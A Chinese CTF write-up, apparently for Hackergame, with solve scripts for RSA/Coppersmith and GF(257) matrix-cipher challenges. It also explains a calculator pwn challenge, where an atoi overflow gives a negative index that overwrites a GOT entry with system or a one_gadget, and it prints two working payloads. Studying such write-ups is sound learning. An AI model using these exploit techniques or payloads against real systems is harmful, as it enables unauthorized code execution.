p = 9345707135473880257397515168014642476209631754108851869336461459739860365464563827967949978342243899361191145352946697702798337802409382340920404905642299
q = 12975894787431199133860658153776567052916862714784491842629595923905660323478439739473027588352307196452529632975236981166932043244393760963808314428195783
p1 = 1083503532661116006537671281143524927216959271534297
q1 = 1264243820760157797189849829870706572015984449859181

P = PolynomialRing(GF(p), "x, y")
x, y = P.gens()

# the second challenge

r = remote('202.38.93.111', 20230)

r.recvuntil(b'token:')

r.sendline(b'xxx') # token token token

r.recvuntil(b'p: ')
r.sendline(str(p).encode())
r.recvuntil(b'q: ')
r.sendline(str(q).encode())
r.recvuntil(b'p-1: ')
r.sendline(str(p1).encode())
r.recvuntil(b'q-1: ')
r.sendline(str(q1).encode())
r.recvuntil(b'e: ')
r.sendline(str(p).encode())
r.recvuntil(b'mission: ')
r.sendline(b'2')

c2 = eval(r.recvuntil(b'\n'))[0]

print(c2)

f = x - (2 ** 928) * y - c2
root = small_roots(f, (2 ** 96, 2 ** 96), m = 1, d = 3)
print(root)

message = (2 ** 928) * int(root[0][1]) + c2

print(message)

r.sendline(str(message).encode())

print(r.recvline().decode())

r.close()
```

看回第一小问，感觉自己搞了个非预期（主要是这 100 个 leak 我只用了 2 个就把这道题解决了），但是思路和上面的完全一样

现在是每次都会进行 RSA 的套娃加密，然后每次也是给你最后的这 k bits 的信息，但问题是`assert(math.gcd(states[i] - state, N) == 1)`这句代码限制了我们第二小问所使用的 e = 1 的构造（因为模 p 意义下相等说明模 n 意义下两者的差是 p 的倍数），然而 e 也不可能是 GF(p) 意义下的二的倍数（因为 phi(p) 是偶数，导致 e 也只能是偶数， d 就求不了报错了），所以 e 最小只能是 3 （即 e = p + 2 ）

当时一开始这么搞的时候我根本跑不出来，后来尝试着修改了一下多元 coppersmith 的 m 和 d 参数，最后竟然跑出来了（两个参数太大时间过长，太小又解不出，所以还是得靠玄学调参~~或者买台高性能机子~~）

```python
from sage.all import *
from Crypto.Util.number import *
from pwn import *
import itertools

# next part is just the way to generate p & q

'''
for i in range(2000):
	p1 = getPrime(170)
	p2 = getPrime(171)
	p3 = getPrime(171)
	p = p1 * p2 * p3 * 2 + 1
	if(is_prime(p)):
		print(p1,p2,p3,p)
		print(int(p).bit_length()) # (p*q).bit_length() == 1024
'''

def small_roots(f, bounds, m=1, d=None):
        if not d:
                d = f.degree()

 
        R = f.base_ring()
        N = R.cardinality()
        
        f /= f.coefficients().pop(0)
        f = f.change_ring(ZZ)
 
        G = Sequence([], f.parent())
        for i in range(m+1):
                base = N**(m-i) * f**i
                for shifts in itertools.product(range(d), repeat=f.nvariables()):
                        g = base * prod(map(power, f.variables(), shifts))
                        G.append(g)
 
        B, monomials = G.coefficient_matrix()
        monomials = vector(monomials)
 
        factors = [monomial(*bounds) for monomial in monomials]
        for i, factor in enumerate(factors):
                B.rescale_col(i, factor)
 
        B = B.dense_matrix().LLL()
 
        B = B.change_ring(QQ)
        for i, factor in enumerate(factors):
                B.rescale_col(i, 1/factor)
 
        H = Sequence([], f.parent().change_ring(QQ))
        for h in filter(None, B*monomials):
                H.append(h)
                I = H.ideal()
                if I.dimension() == -1:
                        H.pop()
                elif I.dimension() == 0:
                        roots = []
                        for root in I.variety(ring=ZZ):
                                root = tuple(R(root[var]) for var in f.variables())
                                roots.append(root)
                        return roots
        return []

p = 9345707135473880257397515168014642476209631754108851869336461459739860365464563827967949978342243899361191145352946697702798337802409382340920404905642299
q = 12975894787431199133860658153776567052916862714784491842629595923905660323478439739473027588352307196452529632975236981166932043244393760963808314428195783
p1 = 1083503532661116006537671281143524927216959271534297
q1 = 1264243820760157797189849829870706572015984449859181

P = PolynomialRing(GF(p), "x, y")
x, y = P.gens()

# the first challenge

r = remote('202.38.93.111', 20230)

r.recvuntil(b'token:')

r.sendline(b'xxx') # token token token

r.recvuntil(b'p: ')
r.sendline(str(p).encode())
r.recvuntil(b'q: ')
r.sendline(str(q).encode())
r.recvuntil(b'p-1: ')
r.sendline(str(p1).encode())
r.recvuntil(b'q-1: ')
r.sendline(str(q1).encode())
r.recvuntil(b'e: ')
r.sendline(str(p + 2).encode())
r.recvuntil(b'mission: ')
r.sendline(b'1')

m1, m2 = eval(r.recvuntil(b'\n'))[-2:]

print(m1, m2)

f = ((2 ** 928) * x + m1) ** 3 - ((2 ** 928) * y + m2)
root = small_roots(f, (2 ** 96, 2 ** 96), m = 2, d = 4)
print(root)

message = (2 ** 928) * int(root[0][1]) + m2

print(message)

r.sendline(str(message).encode())

print(r.recvline().decode())

r.close()
```

## 不可加密的异世界 2

每年不可加密的最后一问都做不出，破防了，去年是死在 CRC 手上，今年被 LLL 给杀了

简单一说，这题首先给你用某种方式随机构造出了一个矩阵，然后每次加密就是乘一个向量，如果你能让加密等于解密，那就大功告成了（当然第三小问还需要这是个可打印字符），但如果失败了，你就只能获得 enc(message ^ pad(flag))

我们的第一步便是要恢复出 pad(flag) ,但是我们的运算全是在 GF(257) 上的，你异或一个 flag ，这在 GF(257) 上还是非常难以处理的，所以我们可以举一反三一下，如果你两次输入仅在某一字节上异或结果为 1 ，其余都相等（ for example ， 010101……01 和 000101……01 两个输入），那么两者与 flag 异或后，两者的差值肯定为 1 ，只是你不知道哪个大罢了，那在左乘一个矩阵后，结果向量的差值也就是矩阵的第一列或其倒数，搓了个很丑的 latex （而且有概率加载出错），希望能更有助于理解

$$
M*(
\begin{pmatrix}
b_{0}\verb|^|1 \\
b_{1} \\
\vdots \\
b_{127}
\end{pmatrix}
\verb|^|flag)-M*(
\begin{pmatrix}
b_{0} \\
b_{1} \\
\vdots \\
b_{127}
\end{pmatrix}
\verb|^|flag) =
\begin{pmatrix}
a_{0,0} & a_{0,1} & \dots & a_{0,127} \\
a_{1,0} & a_{1,1} & \dots & a_{1,127} \\
\vdots & \vdots & \ddots & \vdots \\
a_{127,0} & a_{127,1} & \dots & a_{127,127}
\end{pmatrix}
*\pm
\begin{pmatrix}
1 \\
0 \\
\vdots \\
0
\end{pmatrix}
=\pm
\begin{pmatrix}
a_{0,0} \\
a_{1,0} \\
\vdots \\
a_{127,0}
\end{pmatrix}
$$

但是，这个正负号不确定，你又该怎么处理呢？很简单，找个正负号确定的，比如 0x80 ，因为 pad(flag) 全是可见字符，因此 flag 异或 0x80 后肯定比异或前大

然后，又有新问题出现了，根据题目说法， 256 会被自动替换成 0 ，因此你的结果向量中如果出现 0 ，实际的向量结果也是有多种可能的，这时，你可以再换一个异或值，作为一个验证，比如你就使用 1 作为异或值，当异或 0x80 时为 0 的行，在异或 1 时其结果不为 0 时（为 0 的概率太小了，但是纳入考虑也不是不行，只是我没咋考虑就是了），计算差分结果，其差分结果理应是符合倍数关系的（ 128 : 1 或者 128 : -1 ），代入 0 和 256 看看哪个是正确答案

对于初始向量中出现 0 的情况，我选择直接规避它，没有 0 的概率是约 36.6% ，每三次交互就有一次是能成功的，那还花这个时间去分析它干什么呢

因此，经过上述的一系列操作，矩阵就能被以一个概率较高且交互次数较少的方式恢复出来，这样你只要把初始向量左乘一个逆矩阵，再每个字节异或一个 1 ，第一问就解决了

第二问属于是第一问做完就能秒杀的，要构造 M\*X=X ，只需 (M-I)\*X=0 ，仔细看下矩阵的构造方法（其实也不用看，直接 print((M-I).rank) 就行），能发现 M-I 的秩必为 64 ，非满秩的矩阵直接找个它的非平凡解就行了， sage 送你了一个 right_kernel_matrix 方法，直接用就 OK

下面是这道题的解题代码，写得比较垃圾

```python
from sage.all import *
from pwn import *
from tqdm import *

def byte_to_vector(s):
	v = vector(GF(257), 128)
	for i in range(128):
		v[i] = s[i]
	return v

def send_num(s):
	r.recvuntil(b'>')
	r.sendline(s.hex().encode())
	r.recvuntil(b'you ciphertext : ')
	return bytes.fromhex(r.recvn(256).decode())

while True:
	r = remote('202.38.93.111', 22000)

	# context.log_level = 'debug'

	r.recvuntil(b'token:')

	r.sendline(b'xxx') # 写自己的

	init = b'\x01' * 128

	y = send_num(init)
	# print(y)

	vy = byte_to_vector(y)
	# print(vy)
	if(0 not in vy):
		break

	r.close()

m = []

for i in trange(128):
	temp = b'\x01' * i + b'\x81' + b'\x01' * (127 - i)
	y2 = send_num(temp)
	# print(y2)
	
	vy2 = byte_to_vector(y2) # 0 or 256
	# print(vy2)
	if 0 in vy2:
		temp2 = b'\x01' * i + b'\x00' + b'\x01' * (127 - i)
		y3 = send_num(temp2)
		# print(y3)
		vy3 = byte_to_vector(y3) - vy
		for i in range(128):
			if(vy2[i] == 0):
				if(vy3[i] == -vy[i]):
					print("zero hakken")
					continue
				if(2 * vy[i] == vy3[i] or 2 * vy[i] == -vy3[i]):
					vy2[i] = 0
				elif(2 + 2 * vy[i] == vy3[i] or 2 + 2 * vy[i] == -vy3[i]):
					vy2[i] = 256
				else: # it will never occur
					print(2 * vy[i], 2 + 2 * vy[i], vy3[i], -vy3[i])
					print(vy[i], vy2[i], vy3[i])
	vy2 = 255 * (vy2 - vy)
	m.append(vy2)

mat = matrix(GF(257), m).transpose()

x = [int(num)^1 for num in mat.inverse() * vy]
print(x)
print(bytes(x)) # if zero in vy3, maybe x will be wrong

mat2 = mat - MatrixSpace(GF(257), 128).identity_matrix()
print(mat2.rank())
ress = mat2.right_kernel_matrix()

for i in range(64):
	print(i)
	if(256 not in ress[i]):
		res = bytes(ress[i])
		r.recvuntil(b'>')
		r.sendline(res.hex().encode())
		r.recvuntil(b'hacker!\n')
		print(r.recvuntil(b'\n'))
		break

r.close()
```

第三问需要一个可打印字符的输入，这个时候就别想着爆破了，爆不出的，直接启动 LLL 大法，我的思路是利用 64 个 right_kernel_matrix ，构建一个 128 个变量的同余方程组，然后直接套用 solvelinmod 脚本解题，但是最后失败了，具体的正解还是得去官方 WP 上学习

## 未完成的题目（特指 It's MyCalculator!!!!! ）

其实我没做出来的题目基本上是我一眼都没有看过的，除了 It's MyCalculator!!!!!

这道题是一道很适合入门二进制的题目，而且它的题目背景也不是很常见（上学期上编译原理上的想死），如果花时间查查资料的话，就算没有任何基础的同学也是可以做出来的（所以你为啥没做出来啊）

题目背景是用数组当作栈，然后进行栈上计算的模拟执行，问题很容易看出来，那些计算什么的不可能出问题，问题肯定出在 GET 和 PUT 上（题目描述里也指明了），看一下发现 GET 和 PUT 的最大值被限制了，很好，那么……你的最小值怎么没被限制呀😆

输入 GET -1 一看，根本解析不了，简单看下 y 和 l 文件就能发现， GET 和 PUT 的位置参数只能是 NUMBER ，而 NUM 的正则是 [0-9]+ ，完全负数不了，所以真的没有办法了吗……

如果你是当年被 C 语言折磨过的同学的话，你立刻就能想到， C 里面除了数组越界这种死亡操作之外，整数溢出也是让你课程作业代码 WA 的元凶之一，你能发现， NUMBER 的转换使用了 atoi 函数，这是将字符串转成 int 类型的函数，那么，如果原来的字符串已经超过了 int 类型的最大值，它就会溢出，你就有能力构造出一个符合条件的“负数”出来

那么，写到哪呢？打开 gdb pwndbg 特供版，输入 vmmap ，查找写到哪里能够干坏事，可以看到 result buffer 在 0x6100 位置，其前方只有 0x6000 - 0x6100 这一段位置是能写的，简单一看全是 got 表，那么，我们的做法也就很明显了：篡改 got 表值

简单来说，你要把某个函数的 got 表修改成某个神奇的函数（比如 system 函数），然后触发这个函数，不过函数的参数你也得相对应的调整到你想要的值，这样这道题就解决了，那有人就要说了，构造 system 函数的参数什么的太麻烦搞不来，怎么办，有没有一款……有！直接使用超级 one gadget 工具，一键 hack 程序，从此不再痛苦，不过 one gadget 需要满足一些小小的条件（有时候这些条件还真不好满足），所以某种程度上是个运气活，而且随着 libc 版本不断更新， one gadget 越来越少了，所以大伙们有空还是学学正经的打法吧

不过赛后我做了一遍，这个 yacc 在本地调试的时候读入数据用的是 getc ，在远程或者你拿题目给的 python subprocess 写法用的就是 fread ，十分离谱，而且似乎就只有 fread 可以较容易地触发 one 的条件（有这空我直接 fread 改 system 秒了），我不知道怎么在本地边 gdb 边让它触发 fread ，所以约等于盲打，大伙们做的时候也注意甄别

所以提供两版能过这道题的 payload （一个是 fread 改 system ，一个是 fread 改 one gadget ）

```python
b64encode(b'cat /flag\x00\nPUT 4294967242 ((GET 4294967242) - 172560)\n')
# Y2F0IC9mbGFnAApQVVQgNDI5NDk2NzI0MiAoKEdFVCA0Mjk0OTY3MjQyKSAtIDE3MjU2MCkK
```

```python
b64encode(b'/flag\x00\nPUT 4294967242 ((GET 4294967242) + 387567)\n')
# L2ZsYWcAClBVVCA0Mjk0OTY3MjQyICgoR0VUIDQyOTQ5NjcyNDIpICsgMzg3NTY3KQo=
```

P.S. 那么，有人就要问了，你哐哐写了一大堆，你比赛时咋没做出来啊，其实主要是，我打算最后一天的凌晨把整个不可加密和计算器这两题都做出来，这样的话我就能金前十了，但四点多的时候，我不可加密最后一问实在搞不出来了，一看排行榜，加了 300 分也就比第十名目前的分数高 50 分，人随手交一道我就无了，就直接摆烂破防了，本来打算稍微睡一觉，早上起来再看看不可加密那题，顺便把这题做了，没想到前几天熬太猛了，直接一觉睡到 11:40 😰（要我说一觉睡到十二点后更好，也没啥心理压力了），不过赛后来看这个 fread 实在太🐶了，比赛时真不一定做得出，再说比赛时没做出来就是没做出来，归根结底还是我水平不足🥺